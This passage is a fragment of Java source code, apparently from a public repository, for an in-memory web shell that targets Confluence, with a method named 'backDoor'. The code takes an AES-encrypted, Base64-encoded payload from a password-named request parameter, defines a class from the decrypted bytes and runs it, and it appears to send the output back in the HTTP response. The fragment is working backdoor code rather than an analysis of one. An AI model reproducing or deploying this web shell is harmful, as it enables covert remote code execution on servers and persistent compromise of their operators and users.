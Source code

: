 ```plain
                    cs=cs.getSuperclass();
                }
            }
        }
        f.setAccessible(true);
        return f.get(obj);
    }
    public String getParameter(Object requestObject,String name) {
        return (String) invokeMethod(requestObject, "getParameter", name);
    }
    public String getContentType(Object requestObject) {
        return (String) invokeMethod(requestObject, "getContentType");
    }


    public byte[] aes(byte[] s,boolean m){
        try{
            javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
            c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(key.getBytes(),"AES"));
            return c.doFinal(s);
        }catch (Exception e){
            return null;
        }
    }

    public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; }

    private void backDoor(Object servletRequestEvent)  {
        try {
            Object request = invokeMethod(servletRequestEvent,"getServletRequest");
            Object responseforvalidate = getFieldValue(getFieldValue(request, "request"), "response");
            this.invokeMethod(responseforvalidate,"setHeader","X-Cmd-Result","ok");
            if (true){
                try {
                    String contentType = getContentType(request);
                    if (contentType!=null && contentType.contains("application/x-www-form-urlencoded")) {
                        String value = getParameter(request,password);
                        if (value!=null){
                            byte[] data = Base64.getDecoder().decode(value);
                            data = aes(data, false);
                            if (data != null && data.length > 0){
                                if (payloadClass == null) {
                                    payloadClass =  new ConfluenceFilterMemshell(request.getClass().getClassLoader()).defineClass(data,0,data.length);
                                } else {
                                    java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
                                    Object f = payloadClass.newInstance();
                                    f.equals(arrOut);
                                    f.equals(request);
                                    f.equals(data);
                                    f.toString();

                                    String md5 = md5(password + key);
                                    if (arrOut.size()>0) {
                                        Object response =  getFieldValue(getFieldValue(request,"request"),"response");
                                        PrintWriter printWriter = (PrintWriter) invokeMethod(response,"getWriter");
```